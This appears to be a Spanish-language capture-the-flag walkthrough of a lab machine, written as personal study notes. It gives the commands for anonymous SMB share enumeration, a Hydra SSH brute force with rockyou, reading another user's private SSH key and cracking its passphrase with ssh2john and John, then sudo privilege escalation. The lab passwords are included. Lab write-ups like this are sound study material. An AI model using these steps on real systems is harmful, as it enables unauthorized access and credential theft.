 
---
 
 Mediante el escaneo de puertos podemos obtener los siguientes puertos de escaneo asi como los puertos 8000 y 8080 en los cuales corre un servidor tomcat en una versión no vulnerable :

![[Pasted image 20251027165523.png]]

- En donde podemos ver que en el puerto 445 corre una versión de samba en la cual podemos enumerar usuarios 

*Enumerar los recursos compartidos de la red a traves del protocolo smb* [[p445 - SAMBA]]
```bash
smbclient -L <Ipvictima> -N     # Enumerar recursos compartidos sin credenciales -N = nullsession
smbclient //<Ipvictima>/<RecursoCompartido> -N # Acceder al recurso sin tener contraseña
```

- De esta forma accedemos al recurso compartido de nombre *Anonymous* en la cual se encuentra un archivo llamado staff.txt 

```bash
smb > 
	get staff.txt    # Descargamos el archivo a nuestra maquina local
```

- El archivo contiene 2 usuarios en los cuales aparece *kay* y *Jan*

![[Pasted image 20251027165904.png]]


- Con esto nos da indicios de realizar un ataque de fuerza bruta por lo que probamos con ambos usuarios por el puerto ssh de la siguiente forma:

```bash
hydra -l jan -P /usr/share/wordlist/rockyou.txt ssh://<IpVictima>   # La contraseña esta en lineas finales del rockyou por lo que hay que esperar
```

- Con el usuario de *jan* obtenemos la contraseña que es *armando* y podemos acceder mediante ssh, una vez estando en la consola procedemos a verificar todos los procesos de escalada de privilegios pero no hay ninguno activo, sin embargo vemos que tenemos permisos de ejecución en la carpeta de *kay* por lo que podemos acceder a ella de la siguiente forma:

```bash
cd /home/kay    # Vemos la carpeta de kay
ls -la          # Listamos todos los permisos y ademas las carpetas ocultas
cd .ssh         # Accedemos a la carpeta oculta de .ssh donde muchas veces se encuentran alojadas claves privadas
cat id_rsa      # Vemos la clave privada de kay por la que la copiamos
```

- Con la clave privada de kay , procedemos a realizar la suplantación en nuestra maquina local:

```bash
nano id_rsa  # Nos creamos un archivo y pegamos la clave privada que habiamos copiado
ssh2john id_rsa > hash     # Extraemos el hash que tiene la clave privada
john hash --wordlist=/usr/share/wordlist/rockyou.txt   # Rompemos el hash extrayendo el passprhase de la clave privada el cual es "beeswax"
chmod +600 id_rsa   # Le damos los permisos de una clave privada a nuestro archivo

ssh kay@<Ipvictima> -i id_rsa   # Accedemos mediante la clave privada por ssh y escribimos "beeswax" cuando nos pidan las passprhase
```

- Una vez estando en el perfil de kay vemos que con el comando *sudo -l* tenemos permisos de root en todos los binarios así que escogemos cualquiera y mediante GTFobins escalamos privilegios  


